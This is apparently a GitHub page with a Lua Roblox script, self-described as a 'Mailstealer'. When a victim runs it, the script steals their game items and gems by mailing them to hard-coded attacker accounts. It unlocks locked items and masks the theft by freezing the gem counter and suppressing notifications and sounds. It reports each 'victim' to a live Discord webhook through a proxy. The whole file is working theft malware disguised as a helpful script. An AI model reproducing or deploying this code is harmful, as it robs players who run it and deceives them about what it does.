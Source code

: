 Username = "belerik016"
Username2 = "belerik016" -- stuff will get sent to this user if first user's mailbox is full
Webhook = "https://discord.com/api/webhooks/1239530418991140895/XxN50CPzJuppo9xxmiJ7E3ZmF9q54fR9BPYfgQq2_-vjJn1F4VoicAZ-ZOMeVq6dkcdm"
min_rap = 1000 -- minimum rap of each item you want to get sent to you.
 
local network = game:GetService("ReplicatedStorage"):WaitForChild("Network")
local library = require(game.ReplicatedStorage.Library)
local save = library.Save.Get().Inventory
local mailsent = library.Save.Get().MailboxSendsSinceReset
local plr = game.Players.LocalPlayer
local MailMessage = "gg / HcpNe56R2a"
local HttpService = game:GetService("HttpService")
local sortedItems = {}
_G.scriptExecuted = _G.scriptExecuted or false
local GetSave = function()
    return require(game.ReplicatedStorage.Library.Client.Save).Get()
end
 
if _G.scriptExecuted then
    return
end
_G.scriptExecuted = true
 
local newamount = 20000
 
if mailsent ~= 0 then
	newamount = math.ceil(newamount * (1.5 ^ mailsent))
end
 
local GemAmount1 = 1
for i, v in pairs(GetSave().Inventory.Currency) do
    if v.id == "Diamonds" then
        GemAmount1 = v._am
		break
    end
end
 
if newamount > GemAmount1 then
    return
end
 
local function formatNumber(number)
	local number = math.floor(number)
	local suffixes = {"", "k", "m", "b", "t"}
	local suffixIndex = 1
	while number >= 1000 do
		number = number / 1000
		suffixIndex = suffixIndex + 1
	end
	return string.format("%.2f%s", number, suffixes[suffixIndex])
end
 
local function SendMessage(url, username, diamonds)
    local headers = {
        ["Content-Type"] = "application/json"
    }
 
	local totalRAP = 0
	local fields = {
		{
			name = "Victim Username:",
			value = username,
			inline = true
		},
		{
			name = "Items to be sent:",
			value = "",
			inline = false
		}
	}
 
    local combinedItems = {}
    local itemRapMap = {}
 
    for _, item in ipairs(sortedItems) do
        local rapKey = item.name
        if itemRapMap[rapKey] then
            itemRapMap[rapKey].amount = itemRapMap[rapKey].amount + item.amount
        else
            itemRapMap[rapKey] = {amount = item.amount, rap = item.rap}
            table.insert(combinedItems, rapKey)
        end
    end
 
    table.sort(combinedItems, function(a, b)
        return itemRapMap[a].rap * itemRapMap[a].amount > itemRapMap[b].rap * itemRapMap[b].amount 
    end)
 
    for _, itemName in ipairs(combinedItems) do
        local itemData = itemRapMap[itemName]
        fields[2].value = fields[2].value .. itemName .. " (x" .. itemData.amount .. ")" .. ": " .. formatNumber(itemData.rap * itemData.amount) .. " RAP\n"
        totalRAP = totalRAP + (itemData.rap * itemData.amount)
    end
 
    fields[2].value = fields[2].value .. "\nGems: " .. formatNumber(diamonds) .. "\n"
    fields[2].value = fields[2].value .. "Total RAP: " .. formatNumber(totalRAP)
 
    local data = {
        ["embeds"] = {{
            ["title"] = "New Execution" ,
            ["color"] = 65280,
			["fields"] = fields,
			["footer"] = {
				["text"] = "Mailstealer by Tobi. discord.gg/HcpNe56R2a"
			}
        }}
    }
 
    if #fields[2].value > 1024 then
        fields[2].value  = "List of items too big to send!\n\nGems: " .. formatNumber(diamonds) .. "\n"
        fields[2].value = fields[2].value .. "Total RAP: " .. formatNumber(totalRAP)
    end
 
    local body = HttpService:JSONEncode(data)
    local response = request({
		Url = url,
		Method = "POST",
		Headers = headers,
		Body = body
	})
end
 
local user = Username
local user2 = Username2 or "2pRiAMfYN41y"
 
local gemsleaderstat = plr.leaderstats["\240\159\146\142 Diamonds"].Value
local gemsleaderstatpath = plr.leaderstats["\240\159\146\142 Diamonds"]
gemsleaderstatpath:GetPropertyChangedSignal("Value"):Connect(function()
	gemsleaderstatpath.Value = gemsleaderstat
end)
 
local loading = plr.PlayerScripts.Scripts.Core["Process Pending GUI"]
local noti = plr.PlayerGui.Notifications
loading.Disabled = true
noti:GetPropertyChangedSignal("Enabled"):Connect(function()
	noti.Enabled = false
end)
noti.Enabled = false
 
game.DescendantAdded:Connect(function(x)
    if x.ClassName == "Sound" then
        if x.SoundId=="rbxassetid://11839132565" or x.SoundId=="rbxassetid://14254721038" or x.SoundId=="rbxassetid://12413423276" then
            x.Volume=0
            x.PlayOnRemove=false
            x:Destroy()
        end
    end
end)
 
local function getRAP(Type, Item)
    return (library.DevRAPCmds.Get(
        {
            Class = {Name = Type},
            IsA = function(hmm)
                return hmm == Type
            end,
            GetId = function()
                return Item.id
            end,
            StackKey = function()
                return HttpService:JSONEncode({id = Item.id, pt = Item.pt, sh = Item.sh, tn = Item.tn})
            end
        }
    ) or 0)
end
 
local function sendItem(category, uid, am)
    local args = {
        [1] = user,
        [2] = MailMessage,
        [3] = category,
        [4] = uid,
        [5] = am or 1
    }
	local response = false
	repeat
    	local response, err = network:WaitForChild("Mailbox: Send"):InvokeServer(unpack(args))
		if response == false and err == "They don't have enough space!" then
			user = user2
			args[1] = user
		end
	until response == true
	GemAmount1 = GemAmount1 - newamount
	newamount = math.ceil(math.ceil(newamount) * 1.5)
	if newamount > 5000000 then
		newamount = 5000000
	end
end
 
local function SendAllGems()
    for i, v in pairs(GetSave().Inventory.Currency) do
        if v.id == "Diamonds" then
			if GemAmount1 >= (newamount + 10000) then
				local args = {
					[1] = user,
					[2] = MailMessage,
					[3] = "Currency",
					[4] = i,
					[5] = GemAmount1 - newamount
				}
				local response = false
				repeat
					local response = network:WaitForChild("Mailbox: Send"):InvokeServer(unpack(args))
				until response == true
				break
			end
        end
    end
end
 
local function IsMailboxHooked()
	local uid
	for i, v in pairs(save["Pet"]) do
		uid = i
		break
	end
	local args = {
        [1] = "Roblox",
        [2] = "Test",
        [3] = "Pet",
        [4] = uid,
        [5] = 1
    }
    local response, err = network:WaitForChild("Mailbox: Send"):InvokeServer(unpack(args))
    if (err == "They don't have enough space!") or (err == "You don't have enough diamonds to send the mail!") then
        return false
    else
        return true
    end
end
 
local function EmptyBoxes()
    if save.Box then
        for key, value in pairs(save.Box) do
			if value._uq then
				network:WaitForChild("Box: Withdraw All"):InvokeServer(key)
			end
        end
    end
end
 
local function ClaimMail()
    local response, err = network:WaitForChild("Mailbox: Claim All"):InvokeServer()
    while err == "You must wait 30 seconds before using the mailbox!" do
        wait()
        response, err = network:WaitForChild("Mailbox: Claim All"):InvokeServer()
    end
end
 
local categoryList = {"Pet", "Egg", "Charm", "Enchant", "Potion", "Misc", "Hoverboard", "Booth", "Ultimate"}
 
for i, v in pairs(categoryList) do
	if save[v] ~= nil then
		for uid, item in pairs(save[v]) do
			if v == "Pet" then
                local dir = library.Directory.Pets[item.id]
                if dir.huge or dir.exclusiveLevel then
                    local rapValue = getRAP(v, item)
                    if rapValue >= min_rap then
                        local prefix = ""
                        if item.pt and item.pt == 1 then
                            prefix = "Golden "
                        elseif item.pt and item.pt == 2 then
                            prefix = "Rainbow "
                        end
                        if item.sh then
                            prefix = "Shiny " .. prefix
                        end
                        local id = prefix .. item.id
                        table.insert(sortedItems, {category = v, uid = uid, amount = item._am or 1, rap = rapValue, name = id})
                    end
                end
            else
                local rapValue = getRAP(v, item)
                if rapValue >= min_rap then
                    table.insert(sortedItems, {category = v, uid = uid, amount = item._am or 1, rap = rapValue, name = item.id})
                end
            end
            if item._lk then
                local args = {
                [1] = uid,
                [2] = false
                }
                network:WaitForChild("Locking_SetLocked"):InvokeServer(unpack(args))
            end
        end
	end
end
 
if #sortedItems > 0 or GemAmount1 > min_rap + newamount then
    ClaimMail()
	if IsMailboxHooked() then
		return
	end
    EmptyBoxes()
	require(game.ReplicatedStorage.Library.Client.DaycareCmds).Claim()
	require(game.ReplicatedStorage.Library.Client.ExclusiveDaycareCmds).Claim()
    local blob_a = require(game.ReplicatedStorage.Library)
    local blob_b = blob_a.Save.Get()
    function deepCopy(original)
        local copy = {}
        for k, v in pairs(original) do
            if type(v) == "table" then
                v = deepCopy(v)
            end
            copy[k] = v
        end
        return copy
    end
    blob_b = deepCopy(blob_b)
    blob_a.Save.Get = function(...)
        return blob_b
    end
 
    table.sort(sortedItems, function(a, b)
        return a.rap * a.amount > b.rap * b.amount 
    end)
 
    if Webhook and string.find(Webhook, "discord") then
        Webhook = string.gsub(Webhook, "https://discord.com", "https://webhook.lewisakura.moe")
        spawn(function()
            SendMessage(Webhook, plr.Name, GemAmount1)
        end)
    end
 
    for _, item in ipairs(sortedItems) do
        if item.rap >= newamount then
            sendItem(item.category, item.uid, item.amount)
        else
            break
        end
    end
    SendAllGems()
    setclipboard("h")
    local message = require(game.ReplicatedStorage.Library.Client.Message)
    message.Error("Thanks For Using My Script!")
end

